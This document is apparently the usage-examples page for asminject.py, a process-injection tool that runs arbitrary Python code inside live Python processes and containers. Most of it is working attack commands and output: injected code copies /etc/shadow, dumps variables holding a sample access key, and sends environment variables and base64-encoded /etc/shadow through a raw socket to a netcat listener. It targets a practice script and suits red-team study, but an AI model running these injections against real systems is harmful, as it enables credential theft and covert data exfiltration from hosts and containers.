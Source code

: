 # asminject.py examples - Python
* [Execute arbitrary Python code inside an existing Python 3 process](#execute-arbitrary-python-code-inside-an-existing-python-3-process)
* [Execute arbitrary Python code inside an existing Python 2 process](#execute-arbitrary-python-code-inside-an-existing-python-2-process)
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)
* [Interact with a container only via injected Python code](#interact-with-a-container-only-via-injected-python-code)

## Important

For all Python 3 examples, refer to the <a href="docs/specialized_options.md#specifying-non-pic-code">position-independent code discussion in the specialized options document</a>. Python 3 before 3.10 is usually not position-independent, but Python 3.10 and later usually are.

## Execute arbitrary Python code inside an existing Python 3 process

Launch a harmless Python process that simulates one with access to super-secret, sensitive data.

```
$ sudo python3 practice/python_loop.py

2022-05-12T19:46:46.245462 - Loop count 0
2022-05-12T19:46:51.253640 - Loop count 1
2022-05-12T19:46:56.264897 - Loop count 2
```

In a separate terminal, locate the process and inject some arbitrary Python code into it. Note the use of the `--non-pic-binary` option discussed in <a href="docs/specialized_options.md#specifying-non-pic-code">specialized options</a>, as this is required for Python 3.9 specifically on most(?) x86-64 Linux distributions. For other Python versions, you may or may not need to exclude the option.

This payload requires one variable: `pythoncode`, which should contain the Python script code to execute in the existing Python process.

```
# python3 ./asminject.py 2037475 execute_python_code.s \
   --arch x86-64 --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" \
   --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
   
...omitted for brevity...
```

Verify that the file has been copied:

```
# cat /tmp/bishopfox.txt 

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
```

## Execute arbitrary Python code inside an existing Python 2 process

If you're targeting a legacy Python 2 process instead of Python 3, you'll most likely need to omit the `--non-pic-binary` option, e.g. same as the previous example, except:

```
# python3 ./asminject.py 2144294 execute_python_code.s --relative-offsets-from-binaries \
   ---arch x86-64 -stop-method "slow" \
   --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
```

## Write all global or local variables to standard out

Use [the following Python code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```

e.g.

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

or

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Interact with a container only via injected Python code

This scenario simulates a container that either does not allow access to an interactive shell, or use of the interactive shell would trigger an unwanted response.

Start a Python 3 process in a Docker container:
```
# docker run -v $(pwd)/practice/python_loop.py:/tmp/python_loop.py --network=host -ti fedora

latest: Pulling from library/fedora
e1deda52ffad: Pull complete 
...omitted for brevity...
[root@3a78fa62ff5b /]# python3 /tmp/python_loop.py 
2022-06-29T21:30:19.037816 - Loop count 0
2022-06-29T21:30:24.043250 - Loop count 1
```

Locate the process ID for the Python process, then get a list of the binaries it has loaded:

```
# ps auxww | grep python                  

...omitted for brevity...
root     2378331  0.0  0.1  10148  7268 pts/0    S+   14:30   0:00 python3 /tmp/python_loop.py

# cat /proc/2378331/maps

556d84513000-556d84514000 r--p 00000000 08:01 624517                     /usr/bin/python3.10
...omitted for brevity...
7f8483e8b000-7f8483ee4000 r--p 00000000 08:01 626234                     /usr/lib64/libpython3.10.so.1.0
...omitted for brevity...
```

Copy any necessary binaries out of the container and generate offsets from them. For example:

```
# docker cp 3a78fa62ff5b:/usr/bin/python3.10 ./docker-fedora-python3.10

# docker cp 3a78fa62ff5b:/usr/lib64/libpython3.10.so.1.0 ./docker-fedora-libpython3.10

# ./get_relative_offsets.sh docker-fedora-python3.10 > relative-offsets-docker-fedora-python3.10.txt

# ./get_relative_offsets.sh docker-fedora-libpython3.10 > relative-offsets-docker-fedora-libpython3.10.txt
```

Inject the Python code into the target process using the `execute_python_code.s` payload, e.g.:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
	--arch x86-64 \
	--relative-offsets relative-offsets-docker-fedora-python3.10.txt \
	--relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
	--stop-method "slow" \
	--var pythoncode 'import os; print(os.environ);'
```

This should generate output in the terminal where the container was launched, e.g.:

```
2022-06-29T21:53:35.027900 - Loop count 278
environ({'HOSTNAME': '3a78fa62ff5b', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'})
2022-06-29T21:53:44.063159 - Loop count 279
```

To simulate a situation where the console is not visible, you can send Python code that will return the output to a TCP listener, e.g.:

```
% nc -nvlkp 7777
listening on [any] 7777 ...
```

Then, in another terminal:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import os; import socket; s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(f\"{os.environ}\".encode()); s.close()'
```

You should see the output in the `nc` listener, e.g.:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45528
environ({'HOSTNAME': 'copyroom', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'}
```

Copy a file out of the container:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import base64; import os; import socket; f = open(\"/etc/shadow\", mode=\"rb\"); content = f.read(); f.close(); encoded = base64.b64encode(content); s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(encoded); s.close();'
```

The base64-encoded version should appear in the netcat listener:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45530
cm9vdDohbG9ja2VkOjowOjk5O...omitted for brevity...
```